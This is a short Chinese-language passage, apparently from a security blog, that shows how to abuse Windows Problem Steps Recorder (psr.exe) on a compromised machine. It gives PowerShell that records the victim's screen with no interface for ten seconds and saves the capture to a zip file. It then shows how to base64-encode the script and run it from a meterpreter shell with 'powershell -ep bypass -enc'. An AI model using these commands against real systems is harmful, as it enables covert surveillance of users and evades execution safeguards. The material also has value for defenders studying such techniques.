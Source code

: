 如图![Alt text](http://drops.javaweb.org/uploads/images/1de30e3a29f712f8a32b78de273151663d63d824.jpg)

**测试功能：**

1.  自动启动录制
2.  录制指定时间后自动退出
3.  自动保存报告文件

可使用Powershell对上述功能做简单实现：

**1、**启动自动录制，设置为无界面模式，并指定输出路径：

```
psr.exe /start /gui 0 /output C:\test\capture.zip;

```

**2、**等待10s，即录制时间为10s：

```
Start-Sleep -s 10;

```

**3、**结束录制，自动退出：

```
psr.exe /stop;

```

可将以上代码保存为`C:\test\1.txt`，然后对其作base64加密

在Powershell环境下执行如下代码来对功能代码进行base64加密：

```
$string=Get-Content "C:\test\1.txt"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($string)
$encoded = [System.Convert]::ToBase64String($bytes)
$encoded

```

![Alt text](http://drops.javaweb.org/uploads/images/018fbcfa73334af91e809fff581a3326ed9c8942.jpg)

如图，从输出得到加密的Powershell命令为：

```
cABzAHIALgBlAHgAZQAgAC8AcwB0AGEAcgB0ACAALwBnAHUAaQAgADAAIAAvAG8AdQB0AHAAdQB0ACAAQwA6AFwAdABlAHMAdABcAGMAYQBwAHQAdQByAGUALgB6AGkAcAA7ACAAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBzACAAMQAwADsAIABwAHMAcgAuAGUAeABlACAALwBzAHQAbwBwADsA

```

然后就可以在meterpreter的shell下直接执行Powershell命令：

```
powershell -ep bypass -enc cABzAHIALgBlAHgAZQAgAC8AcwB0AGEAcgB0ACAALwBnAHUAaQAgADAAIAAvAG8AdQB0AHAAdQB0ACAAQwA6AFwAdABlAHMAdABcAGMAYQBwAHQAdQByAGUALgB6AGkAcAA7ACAAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBzACAAMQAwADsAIABwAHMAcgAuAGUAeABlACAALwBzAHQAbwBwADsA

```
